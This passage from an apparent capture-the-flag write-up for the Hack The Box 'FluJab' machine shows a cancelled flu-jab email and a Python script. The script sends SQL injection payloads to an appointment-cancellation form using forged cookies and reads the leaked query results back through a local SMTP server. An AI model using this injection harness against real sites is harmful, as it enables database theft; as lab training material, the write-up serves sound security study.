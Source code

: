 ```
    Type   : Injection
    Stat   : CANCELED
    LOC    : Crick026
  ________________________

  Your flu jab appointment has been canceled.
  Have a nice day,

  Nurse Julie Walters
  Senior Staff Nurse
  Cricklestone Doctors Surgery
  NHS England.


------------ END MESSAGE ------------
```

The following script is credited to <a href="https://youtu.be/_f9Xygr-qHU" target="_blank">ippsec</a>. Using this script, we can spin up an smtp server and simulate a terminal to send requests to https://flujab.htb without having to go through Burp or the browser. 

```py
root@kali:~/htb/flujab# cat sql-injection.py
from smtpd import SMTPServer
from cmd import Cmd
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import asyncore
import threading
import re

class Terminal(Cmd):
    prompt = "prompt: "

    def inject(self, args):
        payload = f"' {args}-- -"
        data = { 'nhsnum': payload, 'submit':"Cancel Appointment" }
        cookies = { 'Patient': '962193a883e05ff4a5a63d2ee75c7cff', 'Registered': 'OTYyMTkzYTg4M2UwNWZmNGE1YTYzZDJlZTc1YzdjZmY9VHJ1ZQ==', 'Modus': 'Q29uZmlndXJlPVRydWU=' }
        r = requests.post('https://freeflujab.htb/?cancel', data=data, cookies=cookies, verify=False)
        # debugging
        # print(payload)

    def default(self, args):
        self.inject(args)

class EmailServer(SMTPServer):
    def process_message(self, peer, mailfrom, rcptos, data, **kwargs):
        response = str(data, 'utf-8')
        # match anything in the Ref field
        data = re.findall(r'- Ref:(.*)', response)[0]
        print(data)
        print()

def mail():
    EmailServer(('0.0.0.0',25), None)
    asyncore.loop()

threads = []
t = threading.Thread(target=mail)
threads.append(t)
t.start()

```